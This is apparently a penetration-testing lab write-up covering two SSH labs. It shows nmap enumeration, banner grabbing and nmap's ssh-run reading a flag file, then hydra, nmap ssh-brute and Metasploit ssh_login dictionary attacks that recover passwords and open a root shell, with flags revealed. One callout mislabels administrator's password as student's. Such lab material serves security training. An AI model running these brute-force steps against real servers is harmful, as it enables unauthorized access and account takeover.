








# SSH Enum

**`SSH`** (**S**ecure **Sh**ell Protocol) - a cryptographic network protocol for *operating network services securely* over an unsecured network, based on a _client-server_ model.

Default SSH TCP port is **`22`**.

```bash
sudo nmap -p22 -sV -sC -O <TARGET_IP>
```

## Lab 1

>  🔬 [SSH Recon: Basic](https://attackdefense.pentesteracademy.com/challengedetails?cid=526)
>
>  - Target IP: `192.8.3.3`
>  - Enumeration of [OpenSSH](https://www.openssh.com/) server

```bash
ip -br -c a
	eth1@if130369   UP   192.8.3.2/24 
```

- Target IP is `192.8.3.3`

```bash
nmap -sV 192.8.3.3
```

```bash
22/tcp open  ssh   OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:08:03:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



> 📌 SSH server version is  `OpenSSH 7.2p2 Ubuntu 4ubuntu2.6`.

### [nc](https://docs.oracle.com/cd/E36784_01/html/E36870/netcat-1.html)

> **`nc`** (netcat) - *TCP/IP swiss army knife*, tool wich reads and writes data across network connections

- Fetch the banner and check the SSH server version using `nc`(`netcat`)

```bash
nc 192.8.3.3 22
```

```bash
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6
```

### [ssh](https://www.geeksforgeeks.org/ssh-command-in-linux-with-examples/)

> **`ssh`** - establish an encrypted secure connection with the host machine

- Fetch the pre-login SSH banner

```bash
ssh root@192.8.3.3 22
```



> 📌 SSH banner is `Welcome to attack defense ssh recon lab!!`

- Use [nmap ssh2-enum-algos script](https://nmap.org/nsedoc/scripts/ssh2-enum-algos.html) to report the SSH supported algorithms

```bash
nmap --script ssh2-enum-algos 192.8.3.3
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
| ssh2-enum-algos: 
|   kex_algorithms: (6)
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       ssh-rsa
|       rsa-sha2-512
|       rsa-sha2-256
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
```

> 📌 There are `6` supported *encryption_algorithms*

- Use [nmap ssh-hostkey script](https://nmap.org/nsedoc/scripts/ssh-hostkey.html) to show the target SSH server's entire key

```bash
nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.8.3.3
```

```bash
22/tcp open  ssh
| ssh-hostkey: 
|   ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1fkJK7F8yxf3vewEcLYHljBnKTAiRqzFxkFo6lqyew73ATL2Abyh6at/oOmBSlPI90rtAMA6jQGJ+0HlHgf7mkjz5+CBo9j2VPu1bejYtcxpqpHcL5Bp12wgey1zup74fgd+yOzILjtgbnDOw1+HSkXqN79d+4BnK0QF6T9YnkHvBhZyjzIDmjonDy92yVBAIoB6Rdp0w7nzFz3aN9gzB5MW/nSmgc4qp7R6xtzGaqZKp1H3W3McZO3RELjGzvHOdRkAKL7n2kyVAraSUrR0Oo5m5e/sXrITYi9y0X6p2PTUfYiYvgkv/3xUF+5YDDA33AJvv8BblnRcRRZ74BxaD
|   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB0cJ/kSOXBWVIBA2QH4UB6r7nFL5l7FwHubbSZ9dIs2JSmn/oIgvvQvxmI5YJxkdxRkQlF01KLDmVgESYXyDT4=
|_  ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKuZlCFfTgeaMC79zla20ZM2q64mjqWhKPw/2UzyQ2W/
```

> 📌 The entire `ssh-rsa` host key is `AAAAB3NzaC1yc2EAAAADAQABAAABAQC1fkJK7F8yxf3vewEcLYHljBnKTAiRqzFxkFo6lqyew73ATL2Abyh6at/oOmBSlPI90rtAMA6jQGJ+0HlHgf7mkjz5+CBo9j2VPu1bejYtcxpqpHcL5Bp12wgey1zup74fgd+yOzILjtgbnDOw1+HSkXqN79d+4BnK0QF6T9YnkHvBhZyjzIDmjonDy92yVBAIoB6Rdp0w7nzFz3aN9gzB5MW/nSmgc4qp7R6xtzGaqZKp1H3W3McZO3RELjGzvHOdRkAKL7n2kyVAraSUrR0Oo5m5e/sXrITYi9y0X6p2PTUfYiYvgkv/3xUF+5YDDA33AJvv8BblnRcRRZ74BxaD`

- Use [nmap ssh-auth-methods script](https://nmap.org/nsedoc/scripts/ssh-auth-methods.html) to show supported authentication methods

```bash
nmap -p22 --script ssh-auth-methods --script-args="ssh.user=student" 192.8.3.3
```

```
22/tcp open  ssh
| ssh-auth-methods: 
|_  Supported authentication methods: none_auth

```

```bash
nmap -p22 --script ssh-auth-methods --script-args="ssh.user=admin" 192.8.3.3
```

```bash
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
```



> 📌 `none_auth` authentication method for *`student`* user is used.
>
> 📌 `publickey` and `password` authentication method for *`admin`* user is used.

```bash
ssh student@192.8.3.3
```

```bash
student@victim-1:~$ ls
	FLAG
student@victim-1:~$ cat FLAG
```

- Or use [nmap ssh-run script](https://nmap.org/nsedoc/scripts/ssh-run.html) to run remote command on SSH server

```bash
nmap --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student, ssh-run.password=" 192.8.3.3
```

```bash
NSE: [ssh-run] Authenticated
NSE: [ssh-run] Running command: cat /home/student/FLAG
NSE: [ssh-run] Output of command: {FLAG_content}

Nmap scan report for target-1 (192.8.3.3)
Host is up (0.000011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-run: 
|   output: 
|_    {FLAG_content}\x0D
```

<details>
<summary>Reveal Flag - /home/student/FLAG is: 🚩</summary>


`e1e3c0c9d409f594afdb18fe9ce0ffec`



</details>

## Lab 2

>  🔬 [SSH Recon: Dictionary Attack](https://attackdefense.pentesteracademy.com/challengedetails?cid=527)
>
>  - Target IP: `192.230.83.3`
>  - Detailed `SSH` Enumeration

```bash
ip -br -c a
	eth1@if130414   UP   192.230.83.2/24
```

- Target IP is `192.230.83.3`

```bash
nmap -sV 192.230.83.3
```

```bash
22/tcp open  ssh   OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
```

- Use `hydra` to find *student* user password

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l student -P /usr/share/wordlists/rockyou.txt 192.230.83.3 ssh
```

```bash
[DATA] attacking ssh://192.230.83.3:22/
[STATUS] 180.00 tries/min, 180 tries in 00:01h, 14344223 to do in 1328:11h, 16 active
[22][ssh] host: 192.230.83.3   login: student   password: friend
1 of 1 target successfully completed, 1 valid password found
```



> 📌 *student*'s password is `friend`

- Use [nmap ssh-brute script](https://nmap.org/nsedoc/scripts/ssh-brute.html) to perform brute-force password guessing for *administrator* user

```bash
echo "administrator" > users
nmap -p22 --script=ssh-brute --script-args userdb=/root/users 192.230.83.3
```

```bash
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials
|_  Statistics: Performed 27 guesses in 6 seconds, average tps: 4.5
```



> 📌 *student*'s password is `sunshine`

- Use [`ssh_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh_login/) metasploit module to bruteforce *root*'s password

```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_login
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit

    [-] 192.230.83.3:22 - Failed: 'root:'
    [!] No active DB -- Credential data will not be saved!
    [-] 192.230.83.3:22 - Failed: 'root:!root'
    [-] 192.230.83.3:22 - Failed: 'root:Cisco'
    [-] 192.230.83.3:22 - Failed: 'root:NeXT'
    [-] 192.230.83.3:22 - Failed: 'root:QNX'
    [-] 192.230.83.3:22 - Failed: 'root:admin'
    [+] 192.230.83.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
    [*] Command shell session 1 opened (192.230.83.2:41621 -> 192.230.83.3:22) at 2023-02-16 14:25:47 +0000
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
```



<details>
<summary>Reveal Flag - root password is: 🚩</summary>


`attack`

</details>

```bash
ssh root@192.230.83.3
```

```bash
root@192.230.83.3's password: # enter root password
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
SSH recon dictionary attack lab
```



> 📌 The message of the day is `SSH recon dictionary attack lab`.

------

